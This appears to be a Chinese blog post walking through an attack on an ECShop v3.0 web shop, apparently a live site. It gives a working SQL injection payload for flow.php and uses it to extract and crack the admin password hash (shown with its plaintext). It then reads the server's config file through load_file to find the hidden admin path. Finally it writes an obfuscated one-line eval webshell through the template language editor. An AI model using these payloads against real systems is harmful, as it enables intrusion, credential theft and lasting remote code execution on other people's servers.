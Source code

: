 ```yaml
---
layout: post
title: ECShop v3.0 渗透实例
comments: false
description: ""
keywords: "PenetrationTest"
---
```


ECShop应该很熟悉，是个网店的开源系统。系统后端功能复杂且完成度很高，代码也很成熟；

但是东西归云起这家公司了，下载需要注册，为此还接到了他们推广的骚扰；

之前爆出过前台SQL注入，这次就利用这个SQL注入来开始吧。

## 前台SQL注入

网上分析文件也很多，简单来讲是 flow.php 文件中绕过if判断且参数没过滤出现注入；

```
elseif ($_REQUEST['step'] == 'repurchase') {
    include_once('includes/cls_json.php');
    $order_id = $_POST['order_id'];
    $order_id = json_str_iconv($order_id);
    $user_id = $_SESSION['user_id'];
    $json  = new JSON;
    $order = $db->getOne('SELECT count(*) FROM ' . $ecs->table('order_info') . ' WHERE order_id = ' . $order_id . ' and user_id = ' . $user_id);
    if (!$order) {
        $result = array('error' => 1, 'message' => $_LANG['repurchase_fail']);
        die($json->encode($result));
    }

    $db->query('DELETE FROM ' .$ecs->table('cart') . " WHERE rec_type = " . CART_REPURCHASE);
    $order_goods = $db->getAll("SELECT goods_id, goods_number, goods_attr_id, parent_id FROM " . $ecs->table('order_goods') . " WHERE order_id = " . $order_id);
    $result = array('error' => 0, 'message' => '');
    foreach ($order_goods as $goods) {
        $spec = empty($goods['goods_attr_id']) ? array() : explode(',', $goods['goods_attr_id']);
        if (!addto_cart($goods['goods_id'], $goods['goods_number'], $spec, $goods['parent_id'], CART_REPURCHASE)) {
            $result = false;
            $result = array('error' => 1, 'message' => $_LANG['repurchase_fail']);
        }
    }
    die($json->encode($result));
}
```

利用方法：

```
http://xxxxxxxxxx/flow.php?step=repurchase
post数据：order_id=1 or updatexml(1,concat(0x7e,(database())),0) or 11#
注入语句在database()修改；
```

很简单，利用的`updatexml`报错来注入，并使用`concat`来将注入结果和指定字符合并输出；

至于为什么用0x7e（也就是~号）来配合输出？完全可以使用其他各种字符，纯增加辨识度，sqlmap等都是使用它来辨识度；

oth.在使用sqlmap来注入的时候，可以将显示payload打开看其输出（-v 5），由于字符数限制，需要分别注出后在合并，sqlmap就是用的是~符号来辨识前后相连的字符串，并准确合并来输出显示；

![1.png](/assets/images/2017-11-11/913397642.png)

可以看到报错输出，接下来读取管理账号密码；

![2.png](/assets/images/2017-11-11/2245576166.png)

**a684073c5b42a5eb8461a9d6ae5c71f** 这是31位，md5加密缺了一位，这里可以使用截取来分别提取出来并合并；

这里我在利用`substring`取后半部分：**~b42a5eb8461a9d6ae5c71f3**

![3.png](/assets/images/2017-11-11/2045195113.png)

可以得到密文：a684073c5b42a5eb8461a9d6ae5c71f3，解密：admin@666

用户名同理，存在于user_name字段里，这里不知道字段可以去官网找介绍，也可以找源码搭起来寻找，但版本号要注意，因为v2.7和v3.0字段名大幅改动，碰到需要源码操作的，要严苛版本号；

这里完全可以直接丢给sqlmap让其去跑，没难度；

## 进后台？

按常规，拿到密码肯定要进后台，但这个站点默认后台路径被换掉了，扫描不出且robots.txt并没有修改；

这里就很尴尬，迟钝了好久...

这就用到了一个技巧；

前面不是已经拿到一个SQL注入了，虽然是报错类型的，但并不耽误读取源码；

修改后的后台路径肯定存在于某个文件中作为全局变量，首先从配置文件下手；

./data/config.php存在define('ADMIN_PATH','admin');

可以读这个文件，这里猜apache默认路径没变，/var/www/html/data/config.php

利用`load_file`，并且将绝对路径进行16进制编码，即ascii转hex，小葵，hackbar都可以做到；

![4.png](/assets/images/2017-11-11/472077222.png)

这里开始走了个小坑，默认截取为空，以为没有读出文件内容，但尝试去读取/etc下的文件但可以读出，应该不是权限问题，就从源码看了下；

```
...
$cookie_path    = "/";

$cookie_domain    = "";

$session = "1440";

define('EC_CHARSET','utf-8');

define('ADMIN_PATH','admin');

define('AUTH_KEY', 'this is a key');
...
```

发现配置文件中变量间有空行...这里就怀疑是不是截取到空行了，这里就把文件字符截取后台路径变量ADMIN_PATH前的文字，wc算了下字符，发现在350-400之间；

这里就注入读到了后台文件，admin_xxxxxx......,访问看到久违了后台；

![5.png](/assets/images/2017-11-11/1620463718.png)

## 后台GetShell

轻车熟路了，v3可以直接在模板管理–语言项编辑直接修改来写入shell文件；

看操作；

![6.png](/assets/images/2017-11-11/1188696029.png)

搜索关键字：用户信息；

**用户信息**四个字一定不要删除，在之后添加：

```
1.${${fputs(fopen(base64_decode(enp6LnBocA),w), base64_decode(PD9waHAgZXZhbCgkX1BPU1Rbel0pPz4))}}
```

保存后访问user.php即可在根目录下生成zzz.php的shell，密码z，即上述base64；

![7.png](/assets/images/2017-11-11/1200380059.png)

这里注意一点：利用的exp里面的base64加密去掉了最后的=号。

## 后

这里可能亮点就一个：

利用SQL注入去读配置文件来找后台文件名；

但当时却没想起来，印象比较深刻，说明夯实基础最重要；

现在最新版已经修复了前台的SQL注入漏洞，在传入id处加上了`int强制类型转换`，无法绕过；

```
$order_id = intval($_POST['order_id']);
```